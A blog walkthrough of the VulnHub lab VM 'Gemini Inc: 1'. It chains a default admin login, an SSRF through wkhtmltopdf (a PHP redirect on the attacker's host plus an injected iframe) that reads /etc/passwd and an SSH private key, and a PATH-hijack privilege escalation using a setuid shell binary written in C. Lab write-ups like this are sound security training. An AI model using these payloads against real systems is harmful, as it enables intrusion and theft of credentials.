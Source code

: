 ```yaml
---
layout: post
date: 2018-05-20 17:53:34 +0000
modified: 2018-05-21 13:57:37 +0000
title: "Good Things Come in Pairs"
category: Walkthrough
tags: [VulnHub, "Gemini Inc"]
comments: true
image:
  feature: tiger.jpg
  credit: Alexas_Fotos / Pixabay
  creditlink: https://pixabay.com/en/tiger-predator-pair-fur-beautiful-2979932/
---
```


This post documents the complete walkthrough of Gemini Inc: 1, a boot2root [VM][1] created by [9emin1][2], and hosted at [VulnHub][3]. If you are uncomfortable with spoilers, please stop reading now.
{: .notice}

<!--more-->

### Background
**Gemini Inc** contacted you to perform a penetration testing on one of their internal servers. The server has a web application for employees to export their profile to a PDF. Identify any possible vulnerabilities with the goal of complete server compromise with `root` privilege. Provide the content of `flag.txt` located in the `root` directory as proof.

### Information Gathering

Let's kick this off with a `nmap` scan to establish the available services in the host.

```
nmap -n -v -Pn -p- -A --reason -oN nmap.txt 192.168.10.130
...
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 7.4p1 Debian 10+deb9u2 (protocol 2.0)
| ssh-hostkey:
|   2048 e9:e3:89:b6:3b:ea:e4:13:c8:ac:38:44:d6:ea:c0:e4 (RSA)
|_  256 8c:19:77:fd:36:72:7e:34:46:c4:29:2d:2a:ac:15:98 (ECDSA)
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.25
| http-ls: Volume /
| SIZE  TIME              FILENAME
| -     2018-01-07 08:35  test2/
|_
| http-methods:
|_  Supported Methods: POST OPTIONS HEAD GET
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Index of /
```
`nmap` finds `22/tcp` and `80/tcp` open. The document root lists one directory `test2` and this is how the site looks like in my browser.

![0.apvno5q230d](/assets/images/posts/geminiinc-walkthrough/0.apvno5q230d.png)

There's no need to fuzz the site for directories and/or files because the landing page has offered an important piece of information about the web application &mdash; it's built on [Master Login System](https://github.com/ionutvmi/master-login-system).

### Master Login System

If you'd watched the walkthrough [video](http://www.youtube.com/watch?v=y7SdQfZfLbA) at the project page, you'd have gotten the default login credential without resorting to any brute-force attack; and it's valid too.

![0.m8px4kc89u](/assets/images/posts/geminiinc-walkthrough/0.m8px4kc89u.png)

The drop-down action is available after logging in as `admin` with credential (`admin:1234`).

![0.gpd2zei0wfm](/assets/images/posts/geminiinc-walkthrough/0.gpd2zei0wfm.png)

Here's the `admin`'s profile page.

![0.cnnezs22awr](/assets/images/posts/geminiinc-walkthrough/0.cnnezs22awr.png)

Here's the `admin`'s profile page in PDF.

![0.htaf69v3tiu](/assets/images/posts/geminiinc-walkthrough/0.htaf69v3tiu.png)

I discover that I can access both the profile and export page without having to log in. This means that the export page (`export.php`) probably hardcoded the profile page (`profile.php?u=1`) for PDF conversion. Another interesting fact &mdash; `export.php` uses `wkhtmltopdf` for PDF conversion.

![0.h6tdka9vftf](/assets/images/posts/geminiinc-walkthrough/0.h6tdka9vftf.png)

I also discover that **Display name** and **Email** are not validated in the user's profile edit page (`user.php`). You can verify this from the source code of `user.php`.

```php
$email = $_POST['email'];
$display_name = $_POST['display_name'];
.
.
.
if(!isset($page->error) && $db->query("UPDATE `".MLS_PREFIX."users` SET `email` = ?s, `display_name` = ?s ?p WHERE `userid` = ?i", $email, $display_name, $extra, $u->userid))
```

This opens up the web application to vulnerabilities, such as cross-site scripting (XSS), `iframe` injection and server side request forgery (SSRF). And you know what's the best part? It's reflected on the profile page (`profile.php?u=1`) and by extension, the export page (`export.php`).

Simple XSS test.

![0.hp6nrhy7b4d](/assets/images/posts/geminiinc-walkthrough/0.hp6nrhy7b4d.png)

XSS'd.

![0.mvqpaa9wm5n](/assets/images/posts/geminiinc-walkthrough/0.mvqpaa9wm5n.png)

### Issue #3570

SSRF refers to an attack where an attacker is able to send a crafted request to trick a vulnerable web application to perform an unanticipated action.

In this case, we'd like to trick the web application to read local files such as `/etc/passwd` that we weren't able to, expose through PDF using `wkhtmltopdf`.

After scouring through the issues in the `wkhtmltopdf` GitHub project, I found issue [#3570](https://github.com/wkhtmltopdf/wkhtmltopdf/issues/3570) &mdash; _SSRF and file read with `wkhtmltoimage`_. In another stroke of luck, I found this [page](https://github.com/crackatoa/kertasgorengan/blob/master/catatan/SSRF%20wkhtml.md) (by googling for "wkhtmltoimage ssrf") that shows you how to exploit issue #3570. Although parts of the page were in Indonesian, the idea was so clear, it doesn't require translation. :wink:

It goes like this &mdash; `wkhtmltopdf` follows 302 redirection, captures the HTML, and turns it to PDF.

All we have to do is to host the following code as `1.php` in our attacking machine.

```php
<?php
     $file = $_GET['f'];
     header("location:file://$file");
?>
```

And put this in one of the injectable fields, e.g. **Display name**.

```html
<iframe src="http://192.168.10.128/1.php?f=/etc/passwd" width="100%" height=1220></iframe>
```

Simple? Let's give it a shot.

![0.k9d8bpti9sc](/assets/images/posts/geminiinc-walkthrough/0.k9d8bpti9sc.png)

Sweet. But how do we proceed from here? We can try brute-force attack on `gemini1`'s password. A more efficient way is to read SSH related files off the victim, such as `authorized_keys` and `id_rsa`.

![0.gopakn5k5v](/assets/images/posts/geminiinc-walkthrough/0.gopakn5k5v.png)

There you have it &mdash; `/home/gemini1/.ssh/authorized_keys`. This is `gemini1`'s public key. I bet the private key (`id_rsa`) is in there as well.

![0.yb88plfehc](/assets/images/posts/geminiinc-walkthrough/0.yb88plfehc.png)

Awesome. We can now copy and paste the private key to our attacking machine and log in to `gemini1`'s SSH account.

### Low-privilege Shell

![0.9mfp03dho49](/assets/images/posts/geminiinc-walkthrough/0.9mfp03dho49.png)

Not too shabby.

### Privilege Escalation

One of my favorite privilege escalation techniques is to target files `setuid` to `root`. If there's a way to exploit such a file, we can become `root`.

Let's look for such files.

![0.kqoy3f6mn9](/assets/images/posts/geminiinc-walkthrough/0.kqoy3f6mn9.png)

Notice how the modification date/time of `listinfo` stands out from the rest?

Let's run `listinfo` and see what's the output.

![0.nbdfd9161of](/assets/images/posts/geminiinc-walkthrough/0.nbdfd9161of.png)

From what I can make of it, it appears to be the output of `ifconfig`, `netstat` and current date.

Let's look for strings in `listinfo`.

![0.pxqngjycg8](/assets/images/posts/geminiinc-walkthrough/0.pxqngjycg8.png)

It's evident the output of `listinfo` is the result of running the commands highlighted above.

Now, notice that `date` has no full path? If we change the search path `$PATH` and upload a malicious `date`, one that spawns a shell, then running `listinfo` escalates our privileges to `root`.

The following C code `date.c` allows us to `setuid` and `setgid` as `root`, and spawn a shell.

```c
#include <sys/types.h>
#include <unistd.h>
#include <stdlib.h>

int main() {
	setuid(0);
	setgid(0);
	system("/bin/bash");
}
```

First, we use `scp` to upload the malicious `date.c` to `gemini1`'s home directory from our machine.

```
# scp -i /root/keys/gemini1 date.c gemini1@192.168.10.130:/home/gemini1
```

Next, we compile it.

```
$ gcc -o date date.c
```

![0.mrkt9jfxbkj](/assets/images/posts/geminiinc-walkthrough/0.mrkt9jfxbkj.png)

Lastly, we alter the search path `$PATH` in `gemini1`'s shell such that invoking `date` will run the malicious `date` instead.

```
$ export PATH=/home/gemini1:$PATH
```

![0.bwl7cy99wn8](/assets/images/posts/geminiinc-walkthrough/0.bwl7cy99wn8.png)

Running `listinfo` gives us this.

![0.zybux538spi](/assets/images/posts/geminiinc-walkthrough/0.zybux538spi.png)

The pesky output from `listinfo` is still there. Let's do what I always do: generate the SSH key pair I control, upload the public key to `/root/.ssh/authorized_keys`, and log in with the private key.

![0.kubd74dnyo](/assets/images/posts/geminiinc-walkthrough/0.kubd74dnyo.png)

:dancer:

### Afterthought

I learned a great deal about SSRF from this VM.

[1]: https://www.vulnhub.com/entry/gemini-inc-1,227/
[2]: https://twitter.com/@sec_9emin1
[3]: https://www.vulnhub.com
